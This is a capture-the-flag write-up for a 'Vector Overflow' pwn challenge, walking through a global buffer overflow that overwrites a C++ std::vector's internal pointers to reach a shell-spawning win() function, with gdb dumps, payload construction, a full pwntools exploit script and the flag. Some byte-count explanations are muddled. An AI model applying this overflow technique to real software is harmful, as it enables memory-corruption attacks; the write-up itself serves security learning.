

# Vector Overflow

Solved by **CapangJabba**

## Question
Please overflow into the vector and control it!

# Challenge File

[Download Challenge ZIP](assets/pwn-do-not-rewrite.zip)

# Writeup


## Overview

This challenge involves understanding on how Vector Variable were stored in memory for C++. The program able to overflow the Vector Pointer to change where it points to.


## Initial Analysis

### File Analysis

To know more about the given executable, we can use `file` command.

```bash
file vector_overflow
vector_overflow: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4a0b824c662ee47b5cd3e73176c0092f1fcf714b, for GNU/Linux 3.2.0, not stripped
```

Key Findings:-

1. 64-bit executable
2. not stripped means the executable has not had its symbol table and relocation information removed.

### Executable Security Check

To figure out what security mitigations enabled in this executable, we can use `checksec` command that comes with `pwntools` library

```python
	Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Key Findings :-

1. No PIE, means the executable is not position-independent. Everytime it is loaded, it will be at the same address.
2. Stack Canary found, this will make it harder to do buffer overflow
3. NX enabled, the  executable has the NX bit enabled. The NX bit marks certain areas of memory as non-executable, which helps prevent execution of malicious code injected into these areas (e.g., via buffer overflows).

## Code Analysis

```c++
#include <cstdlib>
#include <iostream>
#include <string>
#include <vector>

char buf[16];
std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};

void lose() {
    puts("Bye!");
    exit(1);
}

void win() {
    system("/bin/sh");
    exit(0);
}

int main() {
    char ductf[6] = "DUCTF";
    char* d = ductf;

    std::cin >> buf;
    std::cout << "Vector v: ";
    for (auto &c : v) {
        std::cout << c << " ";
    }
    std::cout << std::endl;
    if(v.size() == 5) {
        for(auto &c : v) {
            if(c != *d++) {
                lose();
            }
        }

        win();
    }

    lose();
}
```

Code Summary:

1. `win()` is the target function
2. The program will ask input for `buf[16]`. No input size limit, buffer flow can happen here
3. vector v were initialized with `{'X', 'X', 'X', 'X', 'X'}` and to reach `win()` it needs to be `{'D', 'U', 'C', 'T', 'F'}`

## Payload Crafting

### Examining memory structure 

Found that buffer overflow can occur when the program ask for `buf` input from user. First thing to try is, what can we overwrite? what is the structure of the variables?

To do this, a debugger such as gdb is needed.

First use command `disassemble main`. this will disassemble the main function into assembly code.

```python
	0x00000000004013c8 <+48>:	lea    rax,[rip+0x3e11]        # 0x4051e0 <buf>
   0x00000000004013cf <+55>:	mov    rsi,rax
   0x00000000004013d2 <+58>:	lea    rax,[rip+0x3ce7]        # 0x4050c0 <_ZSt3cin@GLIBCXX_3.4>
   0x00000000004013d9 <+65>:	mov    rdi,rax
   0x00000000004013dc <+68>:	call   0x4016a2 <_ZStrsIcSt11char_traitsIcEERSt13basic_istreamIT_T0_ES6_PS3_>
```

In this section, `pwndbg` plugin helps us identify that `[rip+0x3e11]` is the address for `buf` which is `0x4051e0`.

```python
   0x00000000004013ff <+103>:	lea    rax,[rip+0x3dea]        # 0x4051f0 <v>
   0x0000000000401406 <+110>:	mov    QWORD PTR [rbp-0x20],rax
   0x000000000040140a <+114>:	mov    rax,QWORD PTR [rbp-0x20]
   0x000000000040140e <+118>:	mov    rdi,rax
   0x0000000000401411 <+121>:	call   0x401706 <_ZNSt6vectorIcSaIcEE5beginEv>
```

In this section also shows us where vector v were stored which is at `0x4051f0`. From here, vector `v` is on top of `buf` thus `buf` can overwrite vector `v`. But what does it look like in memory for vector `v`? To examine this, use command `x/20x 0x4051f0`

```python
0x4051f0 <v>:	0x004182b0	0x00000000	0x004182b5	0x00000000
0x405200 <v+16>:	0x004182b5	0x00000000	0x00000000	0x00000000
```

From the code, `std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};` were initialized, but there are no `'X'` when we examine `v`. By reading the documentation about `std::vector` in C++.

```
`std::vector` is a sequence container that encapsulates dynamic size arrays.
```

It is a "dynamic size arrays". The value that were found by examining `v` is a pointer. But there are multiple pointers? Knowing that `v` were initialized with 5 values, the first pointers has difference value `5` to the 2nd and third pointer. This indicates the size of `vector v`. This is important because the program will check if `vector v` has a size of 5 to reach `win()` function. Lets examine the location of the pointer to make sure that this assumptions is correct.

`x/5c 0x004182b0`

```python
pwndbg> x/5c 0x004182b0
0x4182b0:	88 'X'	88 'X'	88 'X'	88 'X'	88 'X'
```

The assumptions is correct.

### Testing Buffer Overflow

With previous findings, it is time to test out for buffer overflow, first breakpoints before and after the input is needed.

```python
breakpoint 1: 0x00000000004013dc
breakpoint 2: 0x00000000004013e1

b *0x00000000004013dc
b *0x00000000004013e1
```

Then we run the program.

```python
Breakpoint 1, 0x00000000004013dc in main ()
```

First examine the buffer before our input. Use command `x/14wx 0x4051e0 #buf`

```python
pwndbg> x/14wx 0x4051e0
0x4051e0 <buf>:	0x00000000	0x00000000	0x00000000	0x00000000
0x4051f0 <v>:	0x004182b0	0x00000000	0x004182b5	0x00000000
0x405200 <v+16>:	0x004182b5	0x00000000	0x00000000	0x00000000
0x405210:	0x00000000	0x00000000
```

Take note that at `0x4051f0` is the top pointer, at `0x4051f8` and `0x405200` are the bottom pointer. Using `pwntools` `cyclic 30`, this payload will be created:-

`aaaaaaaabaaaaaaacaaaaaaadaaaaa`

Continue the program and give the payload as input.

```python
Breakpoint 3, 0x00000000004013e1 in main ()
pwndbg> x/14wx 0x4051e0
0x4051e0 <buf>:	0x61616161	0x61616161	0x61616162	0x61616161
0x4051f0 <v>:	0x61616163	0x61616161	0x61616164	0x00006161
0x405200 <v+16>:	0x004182b5	0x00000000	0x00000000	0x00000000
0x405210:	0x00000000	0x00000000
```

Top pointer were overwrite by value `0x61616163` and bottom pointer were overwrite by value `0x61616164`. 

```python
pwndbg> cyclic -l 0x6161616161616163
Finding cyclic pattern of 8 bytes: b'caaaaaaa' (hex: 0x6361616161616161)
Found at offset 16
```

It needs 16 bytes of characters to reach top pointer, and another 8 bytes to reach bottom pointer.

### Attack Strategy

Initialy found that the binary is not PIE means the address of `buf` will stay the same. Additionally, buffer overflow can occur without triggering Stack Canary protection. With these findings, the attack strategy will be:-

1. Payload starts with `'DUCTF'` as wanted input from the program
2. Overflow the `buf`
3. Overwrite the top `v` pointer to the top of the `buf`
4. Overwrite the bottom `pointer` to the bottom of `'DUCTF'` to ensure the size is 5

## Implementation

In 64-bit program, address are in 8 bytes long, the payload need to be carefully crafted.

- Payload needs to have the value `'DUCTF'`, this is only 10 bytes, thus it needs another 6 bytes/3 characters to fit it perfectly. `'DUCTF\x00\x00\x00'`. 

`payload = 'DUCTF\x00\x00\x00'`

- The payload has 8 characters/16 bytes. To overflow the `buf`, 16 characters are needed. 16-8 = 8 

`payload = 'DUCTF\x00\x00\x00'` + `'\x00\x00\x00\x00\x00\x00\x00\x00'` 

- Payload has reach the top pointer of `v` so append the current payload with value `0x4051e0` which is the top of `buf`. However we need to consider how x64 address works and `little endianness`. `0x4051e0` is only 3 bytes long and x64 addresses are 8 bytes long. So need to take note the leading zeros infront. `0x00000000004051e0`. the first 4 bytes is the higher bytes and last 4 bytes is the lower bytes of the address. In `little endian`, the lower bytes goes first in memory, and within the bytes, it is inverted. 

`lower_bytes + high_bytes` = `'\xe0\x51\x40\x00' + '\x00\x00\x00\x00'`

- Lastly the payload need to be appended with the bottom address of `DUCTF`
- Final payload will be:-

`payload = 'DUCTF\x00\x00\x00'` + `'\x00\x00\x00\x00\x00\x00\x00\x00'` + `'\xe0\x51\x40\x00'` + `\x00\x00\x00\x00` + `'\xe5\x51\x40\x00`

### Execution




### Full Script

```python
from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./vector_overflow", )
elf = context.binary = ELF("./vector_overflow", checksec=False)
rop = ROP(elf)
context.log_level = 'debug'

payload = 'DUCTF\x00\x00\x00' + '\x00\x00\x00\x00\x00\x00\x00\x00' + '\xe0\x51\x40\x00' + '\x00\x00\x00\x00' + '\xe5\x51\x40\x00'
io.sendline(payload)
io.interactive()
```


### Flag
`DUCTF{y0u_pwn3d_th4t_vect0r!!}`
